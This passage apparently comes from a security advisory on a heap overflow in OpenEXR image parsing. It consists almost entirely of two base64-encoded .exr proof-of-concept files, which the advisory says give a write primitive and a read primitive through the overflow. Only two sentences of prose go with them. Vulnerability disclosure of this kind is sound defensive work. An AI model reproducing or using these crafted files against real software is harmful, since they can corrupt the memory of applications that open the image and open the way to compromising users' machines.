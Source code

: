 Multiple .exr files which triggers the above described heap overflow can be found below.

{{< details >}}

Write primitive from heap overflow:

```
di8xAQIAAABjb21wcmVzc2lvbgBjb21wcmVzc2lvbgABAAAAAHR5cGUAc3RyaW5nAA0AAABkZWVw
c2NhbmxpbmUAdmVyc2lvbgBpbnQABAAAAAEAAABjaGFubmVscwBjaGxpc3QAJQAAAEEAAAAAAAAA
AAABAAAAAQAAAAAArq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq4AAAAAAAEAAAAAAAAAAQAAAAAAAAAA/wAAAAAAAAAAADoAAAA6AAAA////AP//
/wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////
AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A
////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD/
//8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP//
/wD///8Arq4AAK6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq4=
```

Alternatively, a read primitive can be achieved leveraging the same bug with
the following PoC:

```
di8xAQIAAABnAAARASYmJiYmJiYmJian5EBnr2S1zEBAQEBAQEBAzn0nDH6dyiPFuFBpSulKZm5u
bm5ubgD/JiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmfv8mJtkmJiYmJiYmJiYmJiYmJiZ2ZXJz
aW9uMV4CMTLU1NQAAAAAAF8AALuAwg0DvhAIrqqbhONsH////////wAAjlVUgD4AJiYmJiYmJiYm
JiYmJgAAY2hyY29tcHJlc3Npb24AY29tcHJlc3Npb24AAQAAAAD/AAAmJiZubm5ubm5ubm5ubm5u
bm70qM084T4YPdT8YuIUBldXbmRvd0NlbnRlcgB2MmYACAAAAHYyZgFibGVlaWVlAAB0eXBlAHN0
cmluZwBfAAAAZGVlcHNjYW5saW5lAHIAf///AW9hdG1hdGljCXRpZXMwAAAB3gBjaABjaGxpc3QA
HAAAABAAAAAB/wAAABAAaQAAAQAA/mcAAP5nAAByAH///wFvYXRtYXQAAAABaWMJdGllczAAAAEA
Y2gAYwAAAP90AAAACABra2trazsra2tra2tr5Zcp6ib09XPqBi0xMZc5Wv9mbG9hdP////////8+
65He/kO+tTgXdw9VKwUAAADyAAAAfFUj49bgAAAA5eXl5eXla2UTBAAAAAAAAOXl5f//////////
5XYvMQHl5eXl5QH/dGltLzEB5eXl5eUB/3RpbWVjb3ljb2Rl5eXl5eXl///////////ldi8xAeXl
5eXlAf90aW1lY29kZf//AQBmbG9hdHZlY3RvcgAAAAAA//EAHWlldz4+Pj4+AOXl5eXl5eXl5eXl
5eVkaXNwbGF5V2luAABjaGFubmVscwBjaGxpc3QAPAAAABAAAAAAAAAAKgABAAAAAQAAAABkZWxp
AgAAAGNobGlzdHJlqRAAAAAAAABjaGxpc3RyZXNzaW9pdG9yAXcAAAAAAGNo/wAACE1NTXYyZE1N
TU30sAAAAAAAAGtleWNvZGXl5eXl5eX//////3L/AQD/AAAAnW94MTJpAAB0eXBlAAB0aWNpdGll
c+Xl5eXl5eXl5XYyZnBsYXlXaXlwZQBtMzNkAWV0aXKU4VQAAAAAAAAdAAAAaXKUbGWSNGF0M2Rw
cmVjaHKUbGVtNDRkAP8AAACdb3gxMmkCAAB5cGUAbTMzZAFldGlylGtlbTQ0ZH8AHQAAAGlylGxl
djNpdDNkcHJlY2hyb21hb3gxMmkAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAABGgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
yyAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAZGQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAABAAAAAAAANAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAc3RyaQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA2AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAypAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```